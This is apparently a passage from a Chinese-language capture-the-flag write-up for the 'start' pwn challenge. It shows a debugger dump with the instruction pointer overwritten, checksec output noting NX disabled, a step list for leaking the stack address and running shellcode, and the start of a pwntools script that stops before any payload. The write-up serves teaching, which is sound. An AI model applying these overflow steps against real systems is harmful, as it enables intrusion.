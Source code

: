 ```sh
 EBX  0x0
 ECX  0xffffd0c4 ◂— 0x41414141 ('AAAA')
 EDX  0x3c
 EDI  0x0
 ESI  0x0
 EBP  0x0
 ESP  0xffffd0dc —▸ 0xffffd00a ◂— 0x0
 EIP  0x42424242 ('BBBB')
─────────────────────────────────────[ DISASM ]─────────────────────────────────────
Invalid address 0x42424242





─────────────────────────────────────[ STACK ]──────────────────────────────────────
00:0000│ esp 0xffffd0dc —▸ 0xffffd00a ◂— 0x0
01:0004│     0xffffd0e0 ◂— 0x1
02:0008│     0xffffd0e4 —▸ 0xffffd2bb ◂— '/mnt/hgfs/pwn/pwnable/start/start'
03:000c│     0xffffd0e8 ◂— 0x0
04:0010│     0xffffd0ec —▸ 0xffffd2dd ◂— 'CLUTTER_IM_MODULE=xim'
05:0014│     0xffffd0f0 —▸ 0xffffd2f3 ◂— 0x435f534c ('LS_C')
06:0018│     0xffffd0f4 —▸ 0xffffd8df ◂— 'LC_MEASUREMENT=zh_CN.UTF-8'
07:001c│     0xffffd0f8 —▸ 0xffffd8fa ◂— 'LESSCLOSE=/usr/bin/lesspipe %s %s'
───────────────────────────────────[ BACKTRACE ]────────────────────────────────────
 ► f 0 0x42424242
────────────────────────────────────────────────────────────────────────────────────
```

准备checksec，结果不小心把pwntools删了，安装pwntools和checksec都是人间玄学。
在peda里看NX是开了，直接看checksec，NX并没有开（神奇）

```sh
checksec start
[*] '/mnt/hgfs/pwn/pwnable/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found  
    NX:       NX disabled
    PIE:      No PIE (0x8048000)

```

NX没开，所以可以在栈上执行代码

### writeup

1. Launch ./start
2. Overflow and output esp address with “0x8048087”(mov ecx,esp) 用write函数输出栈地址
3. Add 0x14 + shellcode
4. Execute shellcode

```py
# coding: utf-8
from pwn import *

# set target environment
context.arch      = 'i386'
context.os        = 'linux'
# context.word_size = 32

# context.log_level = "debug" # 打印调试信息
# context.log_level = "error" # 打印错误信息, 此时很多回显就看不到了


debug=0
```